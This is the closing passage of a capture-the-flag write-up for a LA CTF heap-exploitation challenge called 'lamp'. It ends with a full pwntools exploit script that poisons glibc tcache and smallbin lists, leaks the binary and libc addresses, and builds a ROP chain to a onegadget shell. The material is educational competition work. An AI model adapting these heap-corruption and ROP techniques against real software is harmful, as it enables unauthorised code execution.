Then, I can perform the whole dance again: `malloc()` a pointer into the stack, overwrite until reaching the `read()` return address, leave the return address the same, write a ROP chain to onegadget, `malloc()` another pointer, and overwrite the bottom byte of the `read()` return address with a ret gadget to trigger the ROP chain, and you've got a shell! (No need to worry about the user input buffer corrupting a pointer again, because after the previous ROP chain we're working way further down on the stack, well away from the user input buffer)


```python
# Go to return address
p.send(b"58")
p.send(b"\x00" * (offset + 0xc0))

# Leave the return address as is
real_return = bin_base + 0x1196
p.send(p64(real_return))

# Afterwards, set up a onegadget
p.send(p64(pop_rbx))
p.send(p64(0))
p.send(p64(libc_base + 0x206000))   # rbp
p.send(p64(libc_base + 0xef4ce))
p.send(b'\n')

# Go back to return address
p.send(b"f8")
p.send(b'\x00' * (offset + 0xc0))
p.send(b'\xf8')

p.interactive()
```

Thanks to ACM Cyber at UCLA for putting on this CTF, and thanks for enzocut for creating this challenge! I really enjoy this sort of "minimal" challenge where the apparent simplicity of a program requires a creative, outside-the-box exploit chain.

## Full Exploit Script ([download link](e.py))

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("lamp_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe
debug_script='''
#decompiler connect binja
b main
continue
set gdb-workaround-stop-event 1
set resolve-heap-via-heuristic force
#b malloc
#commands
#fin
#end
continue
'''

def conn():
    if args.REMOTE:
        p = remote("chall.lac.tf", 31169)
    elif args.D:
        p = gdb.debug([], exe=exe.path, gdbscript=debug_script, env=[('SHELL', '/bin/bash'), ('A', 'B'), ('C', 'D')])
    else:
        #p = remote("localhost", 31169)
        p = process(["./run"] if not args.STRACE else ["strace", "-follow-forks", "-o", "strace.out", "./run"])

    return p

def main():
    p = conn()

    # tick 197 certified

    # get pointer protection key
    heap_base = u64(p.recv(8)) << 12
    heap_size = 0x21000
    def protect(addr, ptr):
        return ptr ^ (addr >> 12)

    #libc_align_base = (key << 12) & ~0xfffff
    #libc_aslr_guess = libc_align_base + 0xcc6b3200000
    #libc_aslr_guess = int(input("What's libc base?"), 0)
    #fastbin_addr = libc_aslr_guess+0x203ad0
    #progname_addr = libc_aslr_guess + 0x204370

    print(hex(heap_base))

    top = heap_base + 0x2b0

    def free(size):
        assert(size & 0xF == 0)
        nonlocal top, heap_base, heap_size
        p.send(b"b8")
        p.send(b"a" * 0xb0)
        p.send(b"bbbbbbbb")

        top += 0xc0

        # Page-align top
        p.send(p64((0x1000 - (top & 0xFFF) | 1)))
        p.send(b"\n")

        while (top & 0xFFF < 0xE00):
            p.send(b"f0\n")
            top += 0x100

        while (top & 0xFFF < 0xF00 - size):
            p.send(b"30\n")
            top += 0x40

        # Leave just enough space for a chunk of size 'size'
        alloc_size = 0x1000 - (top & 0xFFF) - size - 0x28
        p.send(("%02X" % alloc_size).encode('utf-8'))
        p.send(b"\n")
        top += alloc_size

        # Now allocate a chunk that's too big
        p.send(b"f0\n")
        top = heap_base + heap_size + 0x100
        heap_size += 0x22000
        print(hex(top), hex(heap_size))

    # Fill up tcache[0x60]
    for i in range(11):
        free(0x60)

    # Now we have some stuff in smallbins
    # Put some stuff in another tcache size too
    for i in range(3):
        free(0x40)

    # ...and another couple things in smallbins
    for i in range(3):
        free(0x60)

    # We want to transfer a useful stack address into the tcache.
    # In order to do this, we'll create a fake pile of smallbins, and then allocate one of them
    # causing the rest to be transferred into the tcache until it's full.
    # We then have a valid stack address in the tcache, and we can corrupt the bottom bits of it

    fake_bins = heap_base + 0xcbf90
    target_bin = heap_base + 0xedf78
    start_bin = heap_base + 0x1dbf90

    start_overwrite_from = heap_base + 0x1b9fb0

    print("fake", hex(fake_bins))
    print("target", hex(target_bin))
    print("start", hex(start_bin))

    p.send(b"58")
    BINS = 0
    for i in range(BINS):
        # This ended up being unused, it was here to help control the length
        # of the list of smallbins leading to the bin we wanted to overwrite
        p.send(p64(fake_bins + (i+1)*0x20)) # dummy
        p.send(p64(fake_bins + (i+1)*0x20)) # dummy
        p.send(p64(fake_bins + (i+1)*0x20)) # fd
        p.send(p64(fake_bins + (i+1)*0x20)) # bk

    p.send(p64(target_bin))
    p.send(p64(target_bin))
    p.send(p64(target_bin))
    p.send(p64(target_bin))
    p.send(b"X" * (target_bin - fake_bins - BINS*0x20 - 0x18))
    p.send(b"\x00" * 16)
    p.send(b"\xc8\x46\n")

    p.send(b"30")
    p.send(b"Y" * (start_bin - start_overwrite_from))
    p.send(p64(target_bin))
    p.send(p64(target_bin))
    p.send(p64(target_bin))
    p.send(p64(target_bin))
    p.send(b"\n")

    # Pop the tcache entries.
    for i in range(7):
        p.send(b"58\n")

    # Pop a smallbin entry, causing malloc to move entries from the smallbin to the tcache
    p.send(b"58\n")

    # We need to overwrite the bottom bits of the stack address to something more useful.
    # Use tcache[0x20] to poison tcache[0x40] to point to tcache[0x60]

    tcache_20_dst_addr = heap_base + 0x2a0
    tcache_20_addr = heap_base + 0x90
    tcache_40_addr = heap_base + 0xa0
    tcache_40_dst_addr = heap_base + 0x197fb0
    tcache_60_addr = heap_base + 0xb0
    tcache_80_addr = heap_base + 0xc0
    tcache_e0_addr = heap_base + 0xf0
    tcache_overwrite_addr = heap_base

    p.send(b"18")
    p.send(b"T" * (tcache_40_dst_addr - tcache_20_dst_addr))
    p.send(p64(protect(tcache_40_dst_addr, tcache_overwrite_addr)))
    p.send(b"\n")

    p.send(b"38\n38")

    # pad to start of counts
    p.send(b"T" * 0x10)

    # write some nice big counts
    p.send(b"\x42" * 0x80)


    # Duplciate tcache[0x60] into tcache[0x20], tcache[0xa0], tcache[0xc0]
    p.send(p64(tcache_80_addr))
    p.send(p64(0))
    
    # Let us resume writing after tcache[60]
    p.send(p64(tcache_80_addr))

    # Change stack address to something nice and high up
    p.send(p64(0))
    p.send(b"\x00\xe0\n")

    p.send(b"38")
    # write 80/a0/c0
    p.send(p64(tcache_60_addr))
    p.send(p64(0))
    p.send(p64(tcache_80_addr))
    p.send(p64(0))
    p.send(p64(tcache_80_addr))
    p.send(p64(0))
    p.send(p64(tcache_80_addr))
    p.send(p64(0))
    p.send(p64(tcache_80_addr))
    p.send(p64(0))
    p.send(b"\n")

    # Read tcache[0x80], which will scramble tcache[0x60]
    p.send(b"78\n")

    # Read tcache[0x20/a0/c0], which will unscramble the stack address
    p.send(b"08\n")
    p.send(b"98\n")
    p.send(b"b8\n")
    p.send(b"d8\n")
    p.send(b"f8\n")

    p.send(b"98")

    offset = 0x8
    p.send(b"\x00" * offset + b'\x00')

    # wait for buffers to flush
    while p.recv(timeout=1):
        pass

    while True:
        offset += 16
        print(hex(offset))
        p.send(b"\x1f" * 16)
        if p.recvuntil(b'1', timeout=0.5 if args.REMOTE else 0.01) != b'':
            break

    bin_base = u64(b'1' + p.recv(7)) - 0x1131
    print("bin_base:", hex(bin_base))

    # Go to return address
    p.send(b"b8")
    p.send(b"\x00" * offset)

    # Leave the return address as is
    real_return = bin_base + 0x1196
    p.send(p64(real_return))
    
    # Afterwards, write some ret gadgets
    ret = bin_base + 0x11f8
    for i in range(20):
        p.send(p64(ret))

    libcleak = heap_base + 0x1fdf98
    pop_rbx = bin_base + 0x12c2
    p.send(p64(pop_rbx))
    p.send(p64(libcleak))
    p.send(p64(libcleak))
    writegadget = bin_base + 0x111f
    p.send(p64(writegadget))
    p.send(b'\n')

    # Go back to return address
    p.send(p16((ret >> 40)))
    p.send(b'\x00' * offset)
    p.send(b'\xf8')

    p.recvuntil(b'p')
    libc_base = u64(b'p' + p.recv(7)) - 0x203b70

    print("libc:", hex(libc_base))

    # Go to return address
    p.send(b"58")
    p.send(b"\x00" * (offset + 0xc0))

    # Leave the return address as is
    real_return = bin_base + 0x1196
    p.send(p64(real_return))
    
    # Afterwards, set up a onegadget
    p.send(p64(pop_rbx))
    p.send(p64(0))
    p.send(p64(libc_base + 0x206000))   # rbp
    p.send(p64(libc_base + 0xef4ce))
    p.send(b'\n')

    # Go back to return address
    p.send(b"f8")
    p.send(b'\x00' * (offset + 0xc0))
    p.send(b'\xf8')

    p.interactive()


if __name__ == "__main__":
    main()
```
